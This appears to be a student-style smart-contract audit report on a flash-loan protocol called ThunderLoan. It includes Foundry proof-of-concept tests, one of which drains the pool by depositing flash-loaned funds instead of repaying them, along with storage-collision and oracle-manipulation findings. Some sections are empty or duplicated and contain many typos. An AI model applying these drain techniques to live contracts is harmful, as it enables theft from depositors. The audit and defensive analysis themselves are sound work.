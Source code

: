 # Findings

## HIGH

### [H-1] The `ThunderLoan::deposit` has the ``ThunderLoan::updateExchangeRate` that causes to think it has more fees than it really does, which blocks redemption and incorrecly sets the exchange rate

- Same Root Casue -> 1 finding

**Description** In `ThunderLoan::deposit` the protocol calculates the ex-rate by dividing the total fees by the total deposits. However, the protocol does not account for the fact that the fees are not yet dstributed to the liquidity providers. This means that the exchange rate is calculated as if the fees have already been distributeed, which causes the exchange rate to be high. This casues the protocol to think it has more fees that it really does, which blocks redemption and incorrecly sets the exchange rate.

With a higher exchange rate, an attempt is being made to provide 10,000 `tokenA`, but there are not enough available in the pool.

```javascript
  function deposit(IERC20 token, uint256 amount) external revertIfZero(amount) revertIfNotAllowedToken(token) {
        AssetToken assetToken = s_tokenToAssetToken[token];
        uint256 exchangeRate = assetToken.getExchangeRate();
        uint256 mintAmount = (amount * assetToken.EXCHANGE_RATE_PRECISION()) / exchangeRate;
        emit Deposit(msg.sender, token, amount);
        assetToken.mint(msg.sender, mintAmount);
        // @audit HIGH - 
@>        uint256 calculatedFee = getCalculatedFee(token, amount);
@>        assetToken.updateExchangeRate(calculatedFee);
        token.safeTransferFrom(msg.sender, address(assetToken), amount);
    }
```



**Impact** Several impacts:
1. Blocking redeem: The `redeem` function is blocked because protocol thinks the owned tokens is more than it has
2. Rewards are incorrectly calculated, leading to potentially getting way more or less than deserved

Users funds locks -> they cannot withdraw/redeem
   * Likelihood: HIGH - Everytime someone deposit. If a liquidity provider wants to redeem his tokens (+profits of fees) get block function (redeem)


**Proof of concept** 
1. LP deposit
2. User takes out a flashloan
3. It is now impossible for LP to redeem.

<details>
<summary>Proof of code</summary>

Place the following into ``ThunderLoanTest.t.sol`

```javascript
  function testRedeemAfterLoan() public  setAllowedToken hasDeposits {
        // The start is already in setAllowedToken by owner and in hasDeposit by provider
        uint256 amountBeforeRedeem = tokenA.balanceOf(liquidityProvider);

        uint256 amountToBorrow = AMOUNT * 10;
        uint256 calculatedFee = thunderLoan.getCalculatedFee(tokenA, amountToBorrow);
        
        vm.startPrank(user);
        
        tokenA.mint(address(mockFlashLoanReceiver), AMOUNT);
        thunderLoan.flashloan(address(mockFlashLoanReceiver), tokenA, amountToBorrow, "");
        vm.startPrank(liquidityProvider);

        thunderLoan.redeem(tokenA, type(uint256).max);
  }

```

Steal from an atacker

```javascript
   function test_stealFromPool() public setAllowedToken hasDeposits  {
        
        vm.startPrank(atacker);
        tokenA.mint(atacker, DEPOSIT_AMOUNT);
        tokenA.approve(address(thunderLoan), DEPOSIT_AMOUNT);
        thunderLoan.deposit(tokenA, DEPOSIT_AMOUNT);
        vm.stopPrank();
        
        uint256 amountBeforeRedeem = tokenA.balanceOf(atacker);

        uint256 amountToBorrow = AMOUNT * 10;
        uint256 calculatedFee = thunderLoan.getCalculatedFee(tokenA, amountToBorrow);
        
        vm.startPrank(user);
        
        tokenA.mint(address(mockFlashLoanReceiver), AMOUNT);
        thunderLoan.flashloan(address(mockFlashLoanReceiver), tokenA, amountToBorrow, "");
        
        vm.startPrank(atacker);
        thunderLoan.redeem(tokenA, type(uint256).max);
  }
  
```



</details>

**Recommended Mitigation** Remove the incorrectly updated exchange rate lines from the `ThunderLoan:deposit` 

```diff
    function deposit(IERC20 token, uint256 amount) external revertIfZero(amount) revertIfNotAllowedToken(token) {
        AssetToken assetToken = s_tokenToAssetToken[token];
        uint256 exchangeRate = assetToken.getExchangeRate();
        uint256 mintAmount = (amount * assetToken.EXCHANGE_RATE_PRECISION()) / exchangeRate;
        emit Deposit(msg.sender, token, amount);
        assetToken.mint(msg.sender, mintAmount);
        // @audit HIGH  
-        uint256 calculatedFee = getCalculatedFee(token, amount);
-        assetToken.updateExchangeRate(calculatedFee);
        token.safeTransferFrom(msg.sender, address(assetToken), amount);
    }
```


------------------


### [H-1] User can steal the amount that have been flash loaned with a deposit instead a repay
**Description** The ataker can steal everything he loan from `ThunderLoan::flashloan`.  

**Impact** Every loan can be steal and drain the contract


**Proof of concept** 
1. The atacker do a flashloan
2. Throught a fake flash loan reveiver, it get deposit the amount loaned
3. Because it was deposit, the ataker can redeeem/withdraw that amount.

<details>
<summary>Proof of code</summary>

```javascript
 function test_depositFlashLoan()public setAllowedToken hasDeposits() {
        uint256 amountToBorrow = 50e18;
        
        vm.startPrank(user);
        uint256 fee = thunderLoan.getCalculatedFee(tokenA, amountToBorrow);
        
        MaliciousFlashLoanReceiverDeposit flrd = new MaliciousFlashLoanReceiverDeposit(address(thunderLoan));
        tokenA.mint(address(flrd), fee);
        thunderLoan.flashloan(address(flrd), tokenA, amountToBorrow, "");
        flrd.redeemMoney();
        vm.stopPrank();
        assert(tokenA.balanceOf(address(flrd)) > 50e18+fee);
    }
```

---

Another aggressive version.
We assume that the contract has a mechanism to protect the amount we take from the flash loan. We need to take the amount in different loans.

```javascript
    function test_depositAndDrain()public setAllowedToken hasDeposits() {
        AssetToken tokenAmount = thunderLoan.getAssetFromToken(tokenA);
        uint256 cantidad = tokenA.balanceOf(address(tokenAmount));

        uint256 amountToBorrow = cantidad/10;
        vm.startPrank(user);
        uint256 fee = thunderLoan.getCalculatedFee(tokenA, amountToBorrow);
        MaliciousFlashLoanReceiverDeposit flrd = new MaliciousFlashLoanReceiverDeposit(address(thunderLoan));
        tokenA.mint(address(flrd), fee);
    
        console.log("Total Amount to drain",cantidad);
  
        for (int i = 0; i < 10; i++) {
            if(amountToBorrow > tokenA.balanceOf(address(tokenAmount))) break;
            thunderLoan.flashloan(address(flrd), tokenA, amountToBorrow, "");
            flrd.redeemMoney();
            console.log("Stolen -> ", tokenA.balanceOf(address(flrd)));
        }
        vm.stopPrank(); 
        uint256 cantidad2= tokenA.balanceOf(address(tokenAmount));

        console.log("Rest",cantidad2);

        assert(tokenA.balanceOf(address(flrd)) > 50e18+fee);
    }
```
</details>

**Recommended Mitigation** 

```diff

```




### [H-3] Swapping the variable location causes storage collisions in `ThunderLoan::s_flashloanfee` and `ThundeLoan::s_currentlyFlashLoaning`, feezing protocol

**Description** The original contract `ThunderLoan.sol` had 2 variables in a set order:

```javascript
    uint256 private s_feePrecision; 
    uint256 private s_flashLoanFee; // 0.3% ETH fee
```

And it get changed in the new `ThunderLoanUpgraded.sol` contract

```javascript
  uint256 private s_flashLoanFee; // 0.3% ETH fee
  uint256 public constant FEE_PRECISION = 1e18;

```

Due to the Solidity storage structure, after the upgrade the `s_flashLoanFee` will have the value of `s_feePrecision`. You cannot adjust the position of storage variables, and removing storage variables for constant variables, breaks the storage locations as well.


**Impact** After the upgrade, `s_flashLoanFee` will have the value of `s_feePrecision` This means that users who take out flash loans right after an upgrade will be charged the wrong fee.

More importnantly, the `s_currentlyFlashLoaning` mapping with storage in the wrong storage slot.
Fees are going to be all janked up for the upgrade/storage collision is BAD.

**Proof of concept** 
1. The fee of the original contract is stored.
2. We create the new upgraded version
3. We check againg the fee with the wrong slot. 

<details>
<summary>PoC</summary>

Place the following into `ThunderLoanTest.t.sol`

```javascript
  import { ThunderLoanUpgraded } from "../../src/upgradedProtocol/ThunderLoanUpgraded.sol";
.
.
.
  function testUpgradeBreaks() public {
        uint256 feeBeforeUpgrade = thunderLoan.getFee();
        vm.startPrank(thunderLoan.owner());
        ThunderLoanUpgraded upgraded = new ThunderLoanUpgraded();
        thunderLoan.upgradeToAndCall(address(upgraded), "");
        uint256 feeAfterUpgrade = upgraded.getFee();
        vm.stopPrank();
        console.log("Fee before: ",feeBeforeUpgrade);
        console.log("Fee after: ", feeAfterUpgrade);
        assert(feeBeforeUpgrade != feeAfterUpgrade);
        
    }
```

The storage of each contract it can be seen by 
`forge inspect ThunderLoan storage` and `forge inspect ThunderLoanUpgraded storage`

**Recommended Mitigation** If you must remove the storage variable, leave it as blank to not mess up the storage slots.

```diff
-  uint256 private s_flashLoanFee; // 0.3% ETH fee
-  uint256 public constant FEE_PRECISION = 1e18;
+  uint256 private s_blank;
+  uint256 private s_flashLoanFee; // 0.3% ETH fee
+  uint256 public constant FEE_PRECISION = 1e18;

```
-------------


## MEDIUM


### [M-1] Using TSwap as price oracle leads to price and oracle manipulation attacks

**Description** The TSwap protocol is a constant product formula based AMM (automated market maker). The price of a token is determined by how many reserves are on either side of the pool. Because of this, it is easy for malicious users to manipulate the price of a token by buying or selling a large amount of the token in the same transaction, essentially ignoring protocol fees.

**Impact** Liquidity providers will drastically reduced fees for providing liquidity.


**Proof of concept** 

In 1 transaction

1. User takes a flashloan from `ThunderLoan` for 1000 `tokenA`. They are charged the original fee `fee1`. During the flash loan, they do the following:
  1. User sells 1000 `TokenA`, taking the price.
  2. Instead of repaying right away, the user takes out another flash loan for another 1000 `tokenA`
    1. Due to the fact that the way `ThunderLoan` calculates price based on the `TSwapPool` this second flash loan is subtantially cheaper.
    ```javascript
      function getPriceInWeth(address token) public view returns (uint256) {
        address swapPoolOfToken = IPoolFactory(s_poolFactory).getPool(token);
        return ITSwapPool(swapPoolOfToken).getPriceOfOnePoolTokenInWeth();
    }
    ```
  3. The user then repays the first flash loan, and then repays the second flash loan.
   
<details>
<summary>Proof of code</summary>
1. The attacker takes a flash loan of 1000 `tokenA` from `ThunderLoan`.
2. The attacker sells 1000 `tokenA` on TSwap, manipulating the price.
3. Instead of repaying, the attacker takes a second flash loan for 1000 `tokenA`.
4. Due to the manipulated price, the second flash loan is obtained at a lower cost.
5. The attacker repays the first flash loan.
6. The attacker then repays the second flash loan at a lower price, profiting from the manipulation.

**Recommended Mitigation** Consider using a different price oracle mechanism, like a Chainlink price feed with a Uniswap TWAP fallback oracle

1. Decentralized oracles like Chainlink provide more robust prices as they collect data from multiple external sources, making it difficult to manipulate.

2. Implement a Uniswap-based TWAP (Time-Weighted Average Price) system. A TWAP takes a time-weighted average of prices, reducing the impact of instantaneous fluctuations or short-term manipulations, such as those made through large transactions in a single block.

```javascript
contract TWAPOracle {
    IUniswapV2Pair public pair;
    uint256 public price0CumulativeLast;
    uint256 public price1CumulativeLast;
    uint32 public blockTimestampLast;
    uint256 public price0TWAP;
    uint256 public price1TWAP;
...
}

```


</details>


------------------

## INFORMATIONAL

### [I-1] Missing natspecs

**Proof of concept** 
```javascript
function executeOperation(
        address token,
        uint256 amount,
        uint256 fee,
        address initiator,
        bytes calldata params
    )
        external
        returns (bool);

```

----

### [I-1] The `IThunderLoan::repay` have an wrong type of parameter  


**Proof of concept** 
```javascript
    function repay(address token, uint256 amount) external;
    .
    .
    .
    function repay(IERC20 token, uint256 amount) public {...}

```


### [G-1] In the `AssetToken::updateExchangeRate` the amount of calls are going to be a considerable gas waste. It should be with a parameter

**Impact** More gas waste 

**Proof of concept**         

```javascript 
uint256 newExchangeRate = s_exchangeRate * (totalSupply() + fee) / totalSupply();
```
**Recommended Mitigation** 
```diff
-uint256 newExchangeRate = s_exchangeRate * (totalSupply() + fee) / totalSupply();
+   uint256 totalS = totalSuply();
+   uint256 newExchangeRate = s_exchangeRate * (totalS + fee) / totalS;

```


### [I-1] The `IThunderLoan::repay` have an wrong type of parameter  

**Description** 
**Impact** 

**Proof of concept** 
**Recommended Mitigation** 

### [I-1] The `IThunderLoan::repay` have an wrong type of parameter  

**Description** 
**Impact** 

**Proof of concept** 
**Recommended Mitigation** 